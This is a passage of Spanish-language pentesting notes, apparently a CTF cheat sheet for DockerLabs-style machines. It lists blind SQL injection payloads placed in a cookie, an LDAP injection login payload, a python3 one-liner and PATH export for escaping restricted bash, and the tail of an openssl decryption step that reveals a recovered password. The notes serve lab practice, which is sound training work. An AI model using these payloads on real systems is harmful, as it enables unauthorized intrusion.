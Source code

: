
entonces puedo hacer:

openssl pkeyutl -decrypt -in private.txt -out decrypted.txt -inkey private_key.pem

al ver el contenido del archivo decrypted.txt:

demogorgon

-------------------------------------------------------------------------------

## 56.- La vulnerabilidad SQLi puede estar en una cookie.

cookie: ..... ' and 1=1

cookie:...... ' (select 'a' from limit 1,1)='a

cookie:...... ' (select 'a' from users where username='administrator' limit 1,1)='a

cookie:...... ' (select 'a' from users where username='administrator' limit 1,1)='a

-------------------------------------------------------------------------------

## 57.- A veces los formularios tiene funcionamiento con LDAP:

una posible vulnerabilidad sería LDAP Injection:

https://book.hacktricks.wiki/en/pentesting-web/ldap-injection.html?highlight=LDAP#ldap

user=*)(|(&
pass=pwd)

esto funciono para la máquina:

404-not-found -> dockerlabs

-------------------------------------------------------------------------------

## 58.- Si tenemos una rbash, bash con restricción tenemos que ver que comandos podemos usar, y según eso ver que poemos hacer y si tenemos python3 instalado, podemos probar con el siguiente comando:

python3 -c "import subprocess; subprocess.run('/bin/bash', shell=True)"

y si sigue con la rbas hacemos:

export PATH=/bin

-------------------------------------------------------------------------------

## 59.- formas comunes de codificar:

base32
base64

-------------------------------------------------------------------------------
